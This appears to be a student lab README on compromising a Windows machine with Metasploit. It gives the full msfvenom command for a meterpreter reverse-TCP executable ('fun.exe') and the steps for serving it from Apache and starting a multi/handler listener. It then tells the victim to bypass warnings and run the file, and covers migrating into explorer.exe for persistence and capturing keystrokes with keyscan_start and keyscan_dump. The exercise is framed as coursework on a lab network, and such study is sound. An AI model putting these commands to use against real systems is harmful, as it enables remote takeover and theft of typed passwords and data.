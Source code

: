 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/74550efa-b854-40d4-b2ea-efcca695c3a8)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/d7fa5d5a-2d2e-4353-91c0-a264ffd766d5)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/64f9ee47-fe20-476d-8b2f-cbecfb0d9b10)

Start apache server
sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/9de7872b-0606-4bc4-b61b-764fd8f69354)

Check the status of apache2

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/98a71193-fe0b-4b71-8135-5832349c2c8b)

## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/c68b088d-f9ac-494e-89b3-7619dc9a0d1a)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/5bd905e1-0784-45cd-85bd-5d4fd6c26187)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/38c8fc01-5d18-453e-bfa3-f891427a73ec)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/7ba4fa62-e21e-4f75-a4fc-76f0c60f88bd)

Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/ca529d8a-3722-4ec3-b0ba-f9e09b5d0aa4)

On kali give the command exploit

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/7cd5e8ca-50f0-4759-8f28-cc6ff0527039)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/5aa4b149-d48c-46c6-b76f-24de7f2a1987)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/8c13a53a-f912-46fd-8128-f5b7c33fcb09)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/2a10708c-b57d-4186-b5d9-11430a205c3e)
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/2bcd0bf4-82ea-4c20-ba04-90ba4eb23340)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/404437cd-6710-4752-ac8e-6a859528baad)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

